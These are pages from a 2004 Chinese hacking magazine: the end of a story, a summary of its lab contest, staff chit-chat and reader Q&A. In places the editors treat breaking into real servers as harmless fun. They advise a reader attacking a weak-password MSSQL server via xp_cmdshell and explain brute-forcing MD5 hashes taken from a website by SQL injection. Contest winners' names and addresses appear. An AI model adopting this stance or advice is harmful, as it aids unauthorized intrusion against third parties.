网站荒芜的第十二天，主页已经被垃圾文件覆盖得面目全非，访问量也不足原来的十分之一，竹却没有了踪影。

不忍竹就这么放弃，我拿到了管理员的密码，开始为他维护。头一天的工作极累，我几乎没有时间做任何其他的事情。以后就好多了，我开始像管理自己的网站一样经营着他的主页。

等竹发现本应荒废的网站依旧生机勃勃的时候，已经是一个月之后的事情了。

他开始寻找维护的人，而我，又岂是那么容易就能被抓住的？但每次，我都会给竹留下点什么，或是一幅淡雅的图片，或是一段舒缓的音乐，为的是让他知道，我是善意的。

直到最后，竹又开始自己维护网站时，我知道，我可以退出了。

撤走木马的那天，我看到竹把有关雅的所有文件，放到了他的珍藏夹里。

## 五

手中的秋茶，正在缓缓地舒展馥郁的叶子。

窗外，雨住了，偶尔会有晚归鸟儿的翅膀划过星空。

我站在窗前，数着在这寒冷季节里夜归的影子，橙色的灯影中，风静静地卷起几片叶子，又轻轻地下。

电脑的显示屏上，不断变换着网络传输的数据。

有关竹的记忆，随雨滴闪亮在窗棂，挣扎着，不肯滴下。

## 明天会更好！

——《黑客防线》攻防实验室第二轮总结暨第三轮展望


眨眼间，黑防攻防实验室第二轮从11月5日开始到现在已经5个月了，我们倡导的“在攻与防的对立统一中寻求突破”的理念也开始深入人心；实验室的模式已经被很多朋友接受，现在网络上小规模的实验室也已经开始慢慢开展；一直关注我们实验室的朋友们也越来越觉得自己不单是纸上谈兵的理论家了，通过杂志上的理论知识和实验室实际操作的结合，学到了非常多实用的入侵、防护技术；黑防的读者团体也开始走向成熟，非常多来自五湖四海的朋友为了同一个技术走到了一起，成为非常好的朋友；同时，现在的网络安全事业已经被各大公司和社团提到了议事日程的高度，现在计算机专业的行业需要重点就在网络安全方面，很多同学去应聘计算机专业的职位时，网络安全都是必须要知道的常识！……总之一句话：谢谢大家对《黑客防线》杂志和实验室的支持，没有大家的关心，我们不会有今天的成绩！

借着3月的春风，我们第二轮的实验室也接近尾声，本期特对本轮实验室的情况做一个总结，并展望第三轮实验室，希望大家和我们继续进步！

### 在快乐和欢笑中享受技术的提升！

本轮实验室是小编们觉得最开心的一轮，从实验室开始开放以来，编辑部就笑声不断！特摘录几个花絮和大家一起分享！

### 花絮一

记得第二轮开放后第三天，访问量就已经比黑防首页服务器的访问量要大一倍了，所以服务器经常当掉！原来服务器都由wtf一个管理，有任何问题第一个通知的就是他，现在访问量一增大，服务器又在楼上，他在楼下的办公室办公，几乎每隔20分钟就跑一次机房！加上wtf本身体积比较“庞大”，所以就听见他踩在楼梯上“咚咚咚”地上楼，一会儿又“咚咚咚”地下楼，隔上10多分钟，“咚咚咚”的声音再度响起！编辑部小编们那个乐啊！望着累得“呼呼”喘气的wtf笑翻一片！“笑什么笑！哼！从明天开始，大家一人一天维护！服务器当机超过一个钟头的，扣发当月奖金！”——这下没人笑了，一个个都呆着个脸看wtf趾高气扬地回去了！

以后的日子那叫惨啊！我们一个接一个地感受“奔波”的洗礼，累得腿都抬不起来，一坐下就不想站起来，最惨的是蝴蝶MM！她要处理读者来信等琐碎工作，电话不断，每天要冲上去维护服务器，再冲下来接电话！那个累啊！偏偏广大读者对她最好！一轮到MM维护的那天，服务器是10分钟挂一次！而且正好碰上恶意的破坏者！数据频繁被删除，而且集中在吃饭的时候！我们可怜的蝴蝶MM那个累啊！端着饭盒在那里等服务器当！感动得大家热泪盈眶，一人给蝴蝶买了一个鸡腿！

### 花絮二

原来的办公室一直都是脚本小子捣乱的地方，每天就研究自己的漏洞，然后一个接一个机器地扫描、入侵，目的就是想要拿到大家手里比较独特的几个工具，整个编辑部被这小子搞得不得安宁，偏偏这小子又对这些工具非常向往，老是想要收集齐全！于是编辑部就一直战火不断！

但是自从实验室开放以来，这小子规矩了，每天上班早早地来，就冲到机房，还带着个移动硬盘！开始几天大家感到非常纳闷：这小子是不是病了？后来有天脚本小子上厕所，蝴蝶MM要用他的移动硬盘，大家这才发现这小子是上实验室服务器拷贝程序！——整整150M的安全工具啊！什么版本的都有，几乎就是个小的军火库！

原来因为第八关要提升权限，很多朋友在拿到论坛的权限后，都装了自己的webshell，然后上传了很多工具，什么wolf、winshell……版本之全让人难以想象，最关键的是：很多朋友自己开发的工具也留在了我们的硬盘上，这些工具不是经过自己改造的网络上发布的程序，就是自己编写的特定功能程序，不乏好东西！脚本小子就把这些东西收集了起来，塞满他大大的移动硬盘！……嘘！不说了，他过来了，以后有机会我们给大家放到光盘里！呵呵！

### 花絮三

很多朋友渴望自己的名字能印在我们的杂志上面，这样非常有纪念意义，日后翻着也很有荣誉感，所以我们第一次公布前七关实验室过关名单的时候，杂志一发售出去，马上编辑部的工作就被打乱了——来自五湖四海的朋友纷纷打电话过来询问我们什么时候发奖品，这期杂志能不能给他专门特快邮寄一本，大家用来做纪念，于是，分机一直没停过，刚开始是蝴蝶一个人接，到后来，全体编辑出动，专门抽时间回答读者的疑问和满足大家的需要。

说实话，那几天下班后，耳朵都嗡嗡响，但是大家脸上都明显地洋溢着掩饰不住的快乐，因为在和大家交流的时候，除了实验室的问题，热心的读者朋友们还趁这个机会提出了非常多自己的意见和建议！很多点子都是我们首次听到的，对黑防有很大的帮助！再加上大家和我们一起讨论技术问题，所以我们很明确地感受到了读者朋友的一片爱心！

在这里，我谨代表黑防全体编辑给大家说声“谢谢”！感谢大家对我们的支持！我们也会多多听取你的意见，争取大家的共同进步！——当然，非常欢迎你来电询问和黑防一切相关的问题！也欢迎你提出自己的宝贵意见！

### 百家争鸣、各显神通！

在技术方面，本轮的实验室充分考虑了广大新手的能力，所以前七关是网页关，只是一些简单的加密和解密技术，经常看我们早期杂志的朋友一定不是问题，但是到了CGI脚本论坛的第八关，花样就出来了，让我们见识了什么是真正的八仙过海，各显神通！

有些朋友走的是比较实用而且最扎实的道路，他们直接看CGI论坛的源代码，从中找到数据调用和程序编写不严谨的地方，然后详细地分析了函数调用过程，最后通过自己扎实的基本功底，将漏洞详细地分析出来并写出了exp，这些朋友的方式是最好的，也是非常值得向大家推荐的，因为自己发现漏洞并写出利用代码才是真正的“hacker”的精髓！

另一些朋友通过对我们以往杂志的介绍，再配合自己的实际入侵经验，也发现了一些漏洞并成功利用，这个方法也是非常不错的，值得新手们学习，以后每期我们都会考虑到这方面的问题，在文章中专门涉及这方面的讲解，方便大家实际地学习！

还有些朋友属于眼光非常独到的一类人！从技术上讲并没有多大的长处，但是，他们长期泡在实验室的论坛上，一直关注着黑防论坛中最新的动态和发展方向，任何一个漏洞的出现都在他们的“掌握”中，往往等我们得到漏洞发现者通知的时候，这个漏洞已经在小范围内传开了——而这个范围，就是长期在监视实验室论坛的这些朋友们！他们通过对论坛的掌握，关注每次别人发帖的意图，然后敏锐地找到有用的信息，直接利用别人发现的漏洞！不得不说，这样的朋友是非常聪明的，长此下去，一定能有自己的发展！

最后剩下的就是新手朋友们了，他们非常期望参加这样的活动，想从中取得进步，但由于自己的时间、技术等方面的问题，不能很好地发现并使用漏洞，这样的朋友算是最郁闷的一群人了，不过不用替他们担心！这样的情况我们早就想到了，我们建立了很多QQ群，里面聚集了很多新手，大家站在同一个起跑线上，共同讨论问题，在必要的时候我们出面做一定的指导，这样，这些朋友也能非常好地学习技术了——当然，最重要的途径和最详细的分析方法还是发表在我们每月的杂志上，里面很多技术是不被外界知道的，也是很少人利用的，相信一直关注我们杂志的朋友一定有很深的感触！你学会了吗？

……

从实验室开放以来，CGI的漏洞被一个接一个地发现，我们公布了3到4个，实际上发现的漏洞不下10个！只是考虑到漏洞利用难度、读者学习水平、漏洞危害程度等方面，并没有全部发表，以后我们会通过邮件的方式专门给大家发送这样的技术资料，希望能帮助大家学习！

总的来看，第八关的提升权限耗费了大家非常多的时间，同时大家也在长期的磨练中掌握了很多新的技术，比如各种各样反弹端口木马的使用、各种版本的提升权限工具的熟悉等，这些都是书本上学不到的实际经验！相信你的收获一定不小吧！

### 努力后的成功总是让人心醉！

长长的几个月过去了，实验室也几起几落过几次，火暴的情况我们司空见惯，成功入侵后的雀跃与欢呼我们也听了很多，下面该是我们检阅努力成果的时候了！相信经过努力的你，一定会将自己的名字铭刻在我们的书页上的，等你老去了，再回头来看自己经过奋斗的黑客历程，上面清晰地印着你的姓名，那会是如何一种感觉？！！！

前七关过关读者非常多，超出我们原定的名额，考虑到我们的读者朋友也很不容易，对后面过关的朋友我们也都进行了登记并奖励，具体名单请参看前三期杂志，上面有你的大名吗？——前七关奖品已于2003年末寄出，大家应该收到了吧？如果没有，请来电查询，我们会给你补寄的！

第八关是脚本关，使用的是lb5000cgi程序，通过此关的朋友经过了很多努力，不断地尝试和失败后终于可以品尝胜利的果实了！具体名单如下：

| 姓名 | 单位/地址 |
|---|---|
| 姚永锋 | 四川师范大学电子信息工程学院 |
| 王锐 | 湖北省宜都市大众电脑城 |
| 刘晋 | 陕西省西安市东郊永安路28号 |
| 李琨 | 吉林大学远程计算机分院 |
| 李岚文 | 东北师范大学软件学院 |
| 赵海锋 | 山西省青年管理干部学院 |
| 陈海东 | 浙江省台州市椒江区 |
| 李彬 | 河南省焦作工学院 |
| 于小军 | 河南省济源市济钢 |
| 韩彤 | 辽宁省开原市第二高中 |
| 苏来超 | 湖南省长沙市南方大学 |
| 张巍 | 上海市万航渡路 |

恭喜这些朋友，他们的奖品是“《黑客防线》2002年精华本一本”加上“免费赠阅《黑客防线》半年杂志”，我们将在三月中旬寄出，请大家注意查收！

由于破解也是我们必须要涉及到的一个方面，所以本轮准备了比较简单的一个破解程序，相信广大的破解迷满足了吧？放心，以后我们还会涉及到这样的程序的！具体第九关过关名额为：

| 姓名 | 单位/地址 |
|---|---|
| 李继辉 | 河南郑州工程学院 |
| 李永召 | 河南省漯河市南街村 |
| 李苗 | 广西柳州市荣军路 |
| 丘业 | 南宁市星湖路 |
| 严哲敏 | 浙江省丽水中学 |
| 丁在富 | 甘肃省高台县政府 |
| 杨帆 | 江苏省南通市 |
| 杨化怿 | 山东省临沂市 |
| 沈秋锋 | 上海市奉贤区南桥镇 |
| 陈号 | 广东省深圳市福田区 |
| 金城 | 内蒙古乌兰浩特卷烟厂 |
| 刘佳 | 哈尔滨工业大学 |
| 燕海涛 | 武汉市汉口常青花园武汉工业学院 |
| 高文瑜 | 山西省长治市晋东南师专 |
| 程冲 | 河南郑州中州大学 |
| 彭硕 | 辽宁省沈阳市和平区 |
| 张涛 | 西安北沙坡 |
| 杨凯 | 山东信息职业技术学院 |
| 张长弘 | 云南省昆明市西南林学院 |
| 李大华 | 北京市海淀区（特别奖获得者） |
| 陈凯晖 | 上海打浦路 |

恭喜这些朋友！他们将获得我们提供的“《黑客防线》2002年精华本一本”加上“免费赠阅《黑客防线》半年杂志”再加上“《东方卫士2003》正版软件一套”！希望大家喜欢！同样奖品将在我三月中旬寄出！

遗憾的是，这轮实验室，我们的特等奖仍然没有朋友拿到！那可是一个万元级的笔记本哦！还不把它拿回家去？！其实这方面我们也有责任，服务器wtf那小子配置得太BT了！很多程序都无法正常！所以我们积极吸取这样的教训，下一轮的实验室将逐步放开系统的权限，让大家都可以自己去发现漏洞，体验入侵的快感！

## 明天会更好！——《黑客防线》攻防实验室第三轮展望

通过前两轮的实际操作，相信大家都有很大的收获吧？在第三轮实验室的设计上，我们更加深入地抓住“实践出真知”的道理，设计了一些非常贴近实际网络环境的关卡，完全模拟出一个真实的入侵平台，希望大家能玩得开心，学得快乐！

- 1. 初步预定前七关仍然为网页关，这次的关卡设计更多地考虑了灵活性和思维的重要，比上一次的关卡设计要稍难，而且更讲究技巧！——要注意任何一点小的过错或者疏漏都可能导致你无法过关哦！
- 2. 第八关为破解关，难度较上次有所提高，请关注破解的朋友注意自己的常备破解工具准备好了没有？这次是大干一场的时候了！
- 3. 脚本方面我们考虑使用PHP的论坛，大家可以乘这段时间狠补PHP的相关知识，相信到时候一定会有大用处的——我们最近几期也将涉及到一些PHP脚本方面的安全问题，请大家关注我们的杂志！
- 4. 第10关是我们的重点关卡，这次我们完全丢掉以往的方法，采用多服务多渠道的方式给大家实验！相信这台笔记本一定会被某位高手取得！大家一起努力！
- 5. 初步预定第二轮实验室在2004年3月1日停止，这段时间内大家依然可以过关，把过关录像发给我们后，我们会在以后的杂志中公布，并补发奖品！从3月15号开始，第三轮实验室开始！大家发挥特长的时候又到了！
- 6. 具体时间安排请关注我们的官方论坛：www.hacker.com.cn/newbbs。同时，再次提醒大家注意在论坛注册ID要使用真实的邮箱地址，方便我们及时给你发送过关资料和最新战报！让大家一起提高！
- 7. 有任何建议和意见请大家到我们的论坛提出，小编们会尽量给大家解答！给你提供全套优质服务！

## 请大家告诉大家

> 《黑客防线》是你我的《黑客防线》！

《黑客防线》提倡的是“在攻与防的对立统一中寻求突破”！

《黑客防线》关注的是最新的网络安全技术和资讯！

《黑客防线》是理论结合实际的平台！

《黑客防线》是你全面提高网络安全技术的好去处！

当然，最关键的一点是：

《黑客防线》永远是大家的知心朋友！


2月的北京让我们见识了什么是真正的“霸道”！干冷的风，偶尔在下的雪对我们这样“脆弱”的IT族都是很大的“威胁”——虽然我们不怕病毒，不怕入侵，也不怕攻击！但被现实生活剥离的感觉很让人难受，从这个意义上讲，IT族是“脆弱”的，所以，在这里给痴迷于网络安全的朋友提个醒：在技术的海洋中遨游的时候，不要忘了生活中还有你的家人、你的爱情、你的朋友在关怀着你！而你，也到了该回家坐坐、和爱人聊聊、关心关心朋友的时候了……

icefire：这日，IceFire在键盘上忙得不亦乐乎，突然眼前一阵旋风刮过，噢，原来是wtf，只见这家伙冲我说了一句话：“3期编读由你主持！”，说完就闪人了，哇塞！短短2秒钟就把我的“悲惨命运”给决定了！T_T……OK！看在战友的份上，我也就义不容辞了。

2月21日是星期六，这一天是农历二月初二，想来各位黑友都知道“二月二，龙抬头”这个中国习俗吧。据说这一天，编辑部全体小编齐刷刷去发廊，纷纷“龙抬头”去了。周一上班后，全体小编头上都已经换成了新的造型了：看那刘流，将原先的大背头换成了板寸，精神看起来倍儿爽；脚本小子，这个我们编辑部的假MM，依然扎着他的马尾巴，唯一的变化就是将几缕头发染成了红色，听说是为了求得好运气；wtf的头发似乎更卷了，天知道他是自来卷还是烫的；编辑部的熊猫级国宝——蝴蝶MM，也将自己的一头秀发拉得如瀑布一般，倍儿直！没想到平日好啃鸡腿腿的她，居然很淑女！（有读者问，听说蝴蝶好吃鸡腿，是不是长得很胖，其实不是这样的啦），至于我嘛，嘿嘿，成了电灯泡——理了光头啦！Cool吧？（wtf：这下晚上可省电了，呵呵！）

梦呓般写了这些文字，不知所云，其实众小编和全中国的十万读者的愿望是一样的：希望我们共同的杂志《黑客防线》，犹如龙抬头般，做得更好，更完美！

——更可怜的是wtf，春节都没有回家，饱受着寂寞和对家人、MM无限思恋的折磨，不知道兄弟年饭是怎么吃的？新年钟声敲响的时候又是什么样的心情？哎，惨啊……可怜的wtf！

刚上线，就有几个兄弟打招呼，听说我休息日还要工作，他们说了两个字“敬业”，顿时一股暖流涌上心头，不过比起wtf来，这点小事实在算不了什么，因此，对wtf突然有一种莫名的敬佩之情，犹如长江之水滔滔不绝，又如#！$#$井##@%^&$(此处略去2000字！)。不过，只要读者满意，小编们觉得这一切都是非常值得的！

春节收到了很多读者朋友们的祝福，尽管大部分兄弟问同样一条消息都连续收到5次，不过也要非常感谢中国移动，她让我深深感受到了兄弟们对我的真诚和关心。在此，对各位兄弟表示感谢，也同时祝所有关心黑防发展的朋友们新年工作顺利，开心每一秒，快乐每一天，幸福每一年，健康到永远——啊啊，最后别忘了，还要一如既往地支持黑防哦；）

socket：时间过得真快，转眼就平平安安踏过了本命年，回想大年初一还在和父母、亲戚朋友一起鸣放礼花鞭炮，充分享受过节的气氛，现在却在办公室整理稿件了，哎，没办法，为了保证3期稿件质量，众小编只得牺牲一下自己的法定节假日了——

脚本小子：夜深了……电脑前只剩我孤独的身影，记得Socket说自己去年是本命年，我才忽然想起自己不也是属猴的吗？所以赶快去穿上了红**（排版屏蔽单词！），希望在新的一年里工作顺利，技术精进。

年后第一件事情就是拼命给作者们回信，毕竟作者们对俺是那么地支持，脚本小子怎么能辜负了大家的希望呢？偶还准备再去国外的站点上看看新的漏洞，然后和大家一起分享。脚本小子不做漏洞做什么呢？脚本小子不给大家找好东西怎么叫脚本小子呢！

说道对脚本的研究，偶可谓是到忘情、忘爱的地步了（编辑部众小编一听这话顿时全部都去抢厕所，吐得不行……）。记得 wtf 带我去成都玩了一次，偶就眼花：前面开来的一辆 404 公交车，偶就是不想上去。为啥？因为偶总想到 404 是“没有找到”的脚本错误提示。成都公交车还算多，我给大家举几个好记点的吧：500 路（内部错误），403（无权访问，偶想成了无权上车），还有 25 路（这不是 smtp 的端口吗）……害得 wtf 在街上笑翻在地，人事不省！我那个模样啊！当时真想挖个坑钻进去算了——哦，还得把 wtf 救活先！

还是蝴蝶对偶好，她说偶是钻研技术到了极点，工作刻苦，哎呀，当时那个美啊，能得到蝴蝶 plmm 的赞美，偶心里顿时就甜滋滋的……（编辑部里又一轮抢厕所的高潮，不过这次是去找家伙群殴脚本小子！）。

废话不多说了，偶就借黑防 3 期祝大家身体健康，工作顺利，财源滚滚！

### 蝴蝶

一天的工作忙完，回到家已是华灯初上，暖暖地泡个澡，洗去一天的疲惫，心情顿觉舒畅。发梢仍轻滴着水珠，甩一甩头，冲一杯 Cappuccino 坐到电脑桌旁，淡淡的咖啡香味和着舒缓的钢琴曲弥散在房间里，伴着可爱 Mouse 嘀嘀的响声，一个个熟悉的网页慢慢映入眼帘……

脚本小子的狗窝永远是人气最好的地方！放个垃圾工具都要吼半天……

刘流的页子只有 40 个人，居然集合了大部分业界内的精英，里面只有两个字：技术……

icefire 的小家是最不想去的地方，这些牛人全部用的是汇编！连自己的 ID 都是汇编！不过汇编本小姐可是高手！——每个字母都能认识，嘿嘿！

wtf 的小屋是最喜欢去的地方，单纯的文学加上一大堆没公布的漏洞，总是让人流连忘返，可惜现在都杂草丛生了，落寞的荒凉毫不掩饰地充斥在整个空间里……唉，老大，不要太忙了，注意休息，找个时间放松一下吧……

喔，说了这么多，居然忘了自我介绍了：“Hi！大家好，我是蝴蝶，《黑客防线》编辑部的小编，也是编辑部的新闻频道主持人，很喜欢安全技术，不过至于层次嘛……啊啊，还是不说的好！”好了，先向大家介绍这么多，大家有事可以给我的信箱来信（butterfly@hacker.com.cn），相信随着交流的增多，我们会彼此了解！

### Icefire

这期难得大家都在黑防上露面，我也来凑个热闹吧，和大家讲点什么呢？就讲我名字的来历吧。

从前有座山，山上有个庙，庙里有个和尚说……（大伙上前齐声道：我们鄙视你！）嘿嘿，趁大家高兴，我的《孙子兵法》也不看了，咱也适应适应这个气氛，幽默一把！

其实我的这个名字是来源于武侠小说中的冰火岛，那是一个与世隔绝、无忧无虑的地方，在冰与火的洗礼中，岛上的人特别强壮，能抵抗住冰雪的极度寒冷，也能抵御小火山的不时喷发。记得很小的时候看过这个小说，后来还好，张无忌也去这个岛上走了一圈……

看这个书的时候正是我学习汇编最郁闷的时候，头疼的堆栈让我真的不想学下去了，于是开始拾起久违的小说，正好看到这样的内容，突然间就觉得自己很傻，小小的堆栈算什么？小小的汇编算什么？小小的计算机算什么？人家冰火岛里的居民在那样恶劣的环境中仍然生活得很好，小小的汇编怎么就将我难住了呢？所以我重新开始学习这方面的知识，并将自己的 ID 定为：icefire，用来激励自己！

### 刘流

不知不觉间，来黑防也几个月了，除了每天的日常工作外，攻防实验室的设定也是必须要考虑的问题。现在第二轮实验室已经接近尾声了，第三轮实验室正在紧张的制作中，相信一定能给朋友们再一次的惊喜！

“最近又长胖了，唉……”，wtf 一天到晚就在那儿念叨，谁叫那小子过年 10 天都没出门，时间全部用来从事 hack 活动！国内电影服务器可遭殃了，那小子一有空就看连续剧，而且从来不交钱！看完电影后还给人家网管发个消息：“网站有漏洞哦，赶快去看《黑客防线》，修补漏洞吧！”晕死！不过这样对我们也好，现在编辑部一下班，全是看连续剧的，那个热闹啊，简直比过年有过之而无不及！

网管们小心哦，我们只是善意地提醒你服务器有某种漏洞，要是换了其他人，那结果可就无法预计了！赶快照我们讲的内容去修补漏洞吧！

2004 年第一季度就这样过去了，我们的读者也开始继续上学了。感谢大家对我们的关心和支持，在新年的时候，wtf 在黑防论坛（www.hacker.com.cn/newbbs）上提供了一定数量经典的各类工具下载，这些工具一般很难在网络上找到，大多是私人写的，所以在性能和功能上比普通网络提供的工具要好一些，从扫描、攻击、脚本、后门等方面都是比较好的东西，感兴趣的朋友可以去下载！

同时，我们在论坛上开设的“2003 年你最喜爱的 75 种安全工具”也在紧张的投票中，大家可以登录我们的论坛并进行投票，选出你最喜欢的和最经常使用的工具，最后我们会根据最后的结果，评选出 2003 年最优秀的 75 款黑兵器，并在杂志上具体解说。还在等什么？还不登录我们的论坛！

最近很多朋友来信来电询问邮购黑防的事宜，包括很多国外的朋友。为了方便大家，我们列举了详细的邮购方法和邮购条款，感谢大家支持黑防！

- 1. 时至今日凡没有买到和订阅到 2004 年杂志的读者，欢迎你继续订阅我刊，可到邮局给我社汇款邮购订阅，征订时间由原定期改为全年内均可订阅，且可以办理连续两年的订阅，并将已出版的书刊一次性挂号寄出。
- 2. 2004 年全年邮购的各方案中的奖品，我们依然会寄出，但由于邮购数目庞大，物品有限，所以奖品只能发完为止，估计 3 月末前订购 2004 年的朋友都能获得我们的赠品，以后的时间就没有赠品了，请大家赶快邮购！
- 3. 考虑到黑防的自身价值，很多朋友都在一直收藏黑防的刊物，如果你需要某期的刊物，但是现在已经在市场上买不到，那请直接和我们联系邮购，我们会在收到购款后及时寄出杂志！
- 4. 从 2004 年 1 月 1 日起，我国邮资有所调整：国内挂号费由原来的 2.00 元调整为 3.00 元，国际挂号费由原来的 6.50 元调整为 8.00 元。凡邮购需要挂号的读者：如一次性邮购，挂号费由 2.00 元增加为 3.00 元，可汇款：书价 + 挂号费 3.00 元；全年订阅的读者，挂号费由原来的 24.00 元增加为 36.00 元，可汇款：书价 +（挂号费 × 月份），我社仅免收邮资。
- 5. 黑防经过 3 年的成长，已经初具规模，考虑到大家对我们的热情支持，我们拟订在本年内开展“黑防元老”的活动，凡是每期黑防都有收藏的朋友，我们将以丰厚奖品相赠；并且以后会建立 VIP 制度，为长期支持我们的朋友提供各方面优惠，争取让大家得到更多的实惠！

> 论坛 lvfengg：不久前，意外找到一台有弱口令的 mssql 服务器，没有去掉 xp_cmdshell，可是账号虽然能加，但由于对方开了防火墙，封了 135、139、445 等端口，ipc$ 等都不能上传文件，tftp 总是超时！也得不到对方的 shell，无法反向连接。看了一下对方开的服务，有 ftp，可是只能得到匿名用户，不能上传。最近的几个溢出漏洞都试了，没用。实在郁闷，请问黑编，这样的情况下，能有办法上传文件吗？

Wtf：一般 ipc$ 入侵不是在内网就不容易成功，而如果有硬件防火墙保护的话，普通端口也无法连接，所以你的 tftp 才会超时。如果没有删除 xp_cmdshell，可以直接给该计算机加账户的话，可以使用我在论坛上提供下载的“SQL 综合利用工具”，该工具通过临时表的建立和删除，可以直接上传文件，也可以远程以 SQL 的运行权限执行！

> 论坛 小 k：我通过 SQL 注入拿到了一个电影网站数据库中的管理员账户和密码，但是密码是经过 md5 加密的，请问如何才能破解这种密码？

Icefire：md5 是种不可逆的算法，很难破解，最好的办法就是直接使用暴力破解，也就是使用字典 + md5 算法程序尝试密码是不是正确，这也是现在唯一的破解办法了。

具体的方法是先用字典工具生成字典文件，应该比较大，比如 10G，然后再使用专门的 md5 破解程序跑密码，原理上讲如果字典是全的，应该是可以破解的，具体情况就看自己的运气了。md5 破解程序 wtf 在论坛上公布了一个，多线程的，很不错，大家可以试试。

但是不推荐这样的办法，因为这样的方法太笨了，运气好 + 字典好可能 10 分钟跑出密码，但是如果倒霉的话，最好的硬件配置 + 最全的字典，一周都有可能跑不出来密码！所以，遇到这样的密码，还是放弃吧！